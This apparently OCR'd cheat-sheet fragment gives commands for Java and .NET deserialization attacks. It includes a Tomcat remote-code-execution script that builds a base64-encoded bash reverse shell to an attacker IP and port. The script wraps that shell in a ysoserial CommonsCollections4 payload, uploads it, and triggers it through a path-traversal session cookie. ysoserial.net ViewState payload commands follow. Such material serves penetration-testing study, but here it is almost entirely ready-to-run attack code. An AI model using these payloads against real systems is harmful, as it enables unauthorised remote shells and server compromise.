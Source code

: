### Apache Tomcat RCE by Deserialization Skeleton Script

```c
filename=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 32 | head -n 1)
ip=$1
port=$2
cmd="bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'"
jex="bash -c {echo,$(echo -n $cmd | base64)}|{base64,-d}|{bash,-i}"
java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections4 "$jex" > /tmp/$filename.session
curl -s -F "data=@/tmp/$filename.session" http://<RHOST>:8080/upload.jsp?email=test@mail.com > /dev/null
curl -s http://<RHOST>:8080/ -H "Cookie: JSESSIONID=../../../../../../../../../../opt/samples/uploads/$filename" > /dev/null
```

```c
$ ./shell.sh <RHOST> <RPORT>
```

## ysoserial.net

```c
PS C:\> .\ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "<COMMAND>" --path="/default.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="<DECRYPTION_KEY>" --validationalg="SHA1" --validationkey="<VALIDATION_KEY>"
```

### Linux Setup

```c
$ sudo apt-get install -y mono-complete wine winetricks
```

```c
$ winetricks dotnet48
```

```c
$ wine ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "<COMMAND>" --path="/default.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="<DECRYPTION_KEY>" --validationalg="SHA1" --validationkey="<VALIDATION_KEY>"
```
